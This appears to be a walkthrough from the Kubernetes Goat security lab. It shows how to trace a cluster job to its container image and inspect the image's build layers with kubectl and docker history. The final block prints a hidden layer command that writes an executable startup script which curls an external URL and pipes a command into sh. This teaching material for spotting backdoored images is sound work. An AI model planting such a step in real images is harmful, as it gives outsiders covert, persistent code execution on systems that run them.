



## 🎉 Solution & Walkthrough

### 🎲 Method 1

:::info

Identify all resources within a Kubernetes cluster. If possible get into details of each container image available in all the nodes within the cluster as well

:::

* Once we have identified the job in the Kubernetes cluster, we can obtain the pod information by running the following command

```bash
kubectl describe job batch-check-job
```



* Then get the pod information by running the below command which showcases the pods with the labels and selectors matching

```bash
kubectl get pods --namespace default -l "job-name=batch-check-job"
```

* We can get all the information of the pod spec by running the following command, which returns the entire manifest information in the `YAML` output format

```bash
kubectl get pod batch-check-job-xxxx -o yaml
```



* We can see that this job pod is running `madhuakula/k8s-goat-batch-check` docker container image

* Now we can perform an analysis of this container image, by looking at its layers and how it got created. Here we can see that it contains a command executing the external script in the build time in one of the layer

```bash
docker history --no-trunc madhuakula/k8s-goat-batch-check
```



```bash
echo "curl -sSL https://madhuakula.com/kubernetes-goat/k8s-goat-a5e0a28fa75bf429123943abedb065d1 && echo 'id' | sh " > /usr/bin/system-startup && chmod +x /usr/bin/system-startup
```
